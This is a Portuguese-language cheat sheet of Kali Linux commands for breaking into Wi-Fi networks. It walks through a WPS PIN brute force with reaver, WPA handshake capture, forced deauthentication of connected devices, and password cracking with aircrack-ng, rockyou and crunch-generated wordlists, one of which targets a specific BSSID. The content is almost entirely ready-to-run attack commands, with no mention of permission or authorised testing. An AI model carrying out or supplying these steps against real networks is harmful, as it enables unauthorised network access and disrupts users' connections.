 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00 -vv` - Inicia o ataque Reaver.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Inicia o ataque Reaver com parâmetros de intervalos opcionais.

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `airodump-ng wlan0mon` - Ativa a descoberta de redes disponiveis na interface wlan0mon.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura de pacotes do equipamento de rede alvo.
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Executado em terminal paralelo, força a desconexão dos dispositivos da rede alvo.
* Havendo sucesso na captura do pacote de autenticação, no terminal que executa o monitoramento aparecerá a seguinte mensagem: 'WPA handshake'.
* Em posse do pacote capturado com a senha criptografada, devemos quebrar a senha utilizando Wordlists.
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux.
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo rockyou.txt.gz deletando o arquivo zipado.
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist especificado.
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou.txt gerando um novo arquivo que contenha apenas senhas no padrão WPA/WPA2 (8-63 caracteres).

#### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch.
*  lowUP123@%# (Minúsculas,maiúsculas,números e símbolos) - Ordem de Charset no Crunch.
* Parâmetros do Crunch:
    * -b : Tamanho máximo da lista de palavras (requer -o START).
    * -c : Número de linhas para escrever na lista de palavras (requer -o START).
    * -d : Limita o número de caracteres duplicados.
    * -e : Interrompe a geração de palavras em uma determinado string.
    * -f : Especifica uma lista de conjuntos de caracteres do arquivo charset.lst.
    * -i : Inverte a ordem dos caracteres na lista de palavras.
    * -l : Permite a interpretação literal de @,% ^ ao usar -t.
    * -o : O arquivo de lista de saída.
    * -p : Imprime permutações sem repetir caracteres (não pode ser usado com -s).
    * -q : Como a opção -p, exceto a leitura das sequências de um arquivo especificado.
    * -r : Retoma uma sessão anterior (não pode ser usada com -s).
    * -s : Especifique uma string para iniciar a lista de palavras.
    * -t : Define um padrão específico de @,% ^.
    * -z : Comprime o arquivo da lista de saída, acompanhado de -o.
 * Refência do crunch:
    * @ : Representa letras minúsculas.
    * , : Representa letras maiúsculas.
    * % : Representa números.
    * ^ : Representa caracteres especiais.
 * `crunch 4 6 1234567890 -o /root/numerica6-8.txt` - Exemplo de geração de lista
 * `crunch 9 9 1234567890 -t maria@@@@ -o /tmp/wordlist-maria.txt` - Exemplo de geração de lista
 * Charset.lst: /usr/share/crunch/charset.lst
    * Conjunto de caracteres disponíveis no charset.lst:
      * lalpha: apenas letras minúsculas
      * ualpha: apenas letras maiúsculas
      * lalpha-numeric: letras minúsculas e números
      * ualpha-numeric: letras maiúsculas e números
      * lalpha-numeric-all-space: letras minúsculas, números e caracteres especiais como ?, ;, :, espaço, etc.;
      * ualpha-numeric-all-space: letras maiúsculas, números e caracteres especiais como ?, ;, :, espaço, etc.;
      * mixalpha: letras minúsculas e maiúsculas;
      * mixalpha-numeric-all-space: letras maiúsculas, minúsculas, números, caracteres especiais e espaço. 
* `crunch 4 8 -f charset.lst mixalpha -o /root/lista-com-charset.txt` - Exemplo de geração de lista
* `crunch 8 8 -f charset.lst mixalpha-numeric-all-space -t @@abc@@@ -o /root/wordlist-gigante.txt` - Exemplo de geração de lista
* `crunch 4 4 -f charset.lst mixalpha-numeric-all-space -o /root/thekingwordlist4-4.txt` - Exemplo de geração de lista
* `crunch 8 8 abcdefghijklmnopqrstuvxz 1234567890 | aircrack --bssid 00:1D:AA:9D:27:AC -w- 'root/handshakes/Cafelocuraceb-00:1D:AA:9D:27:AC.cap` - Exemplo de geração
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/
https://nsworld.com.br/crunch-gerador-de-wordlist/  
https://nsworld.com.br/aircrack-ng-pacote-de-ferramentas-para-monitorizar-e-analisar-redes-sem-fio/
https://nsworld.com.br/cracking-wpa-com-aircrack-ng/  
https://www.thinklinux.com.br/?p=130  



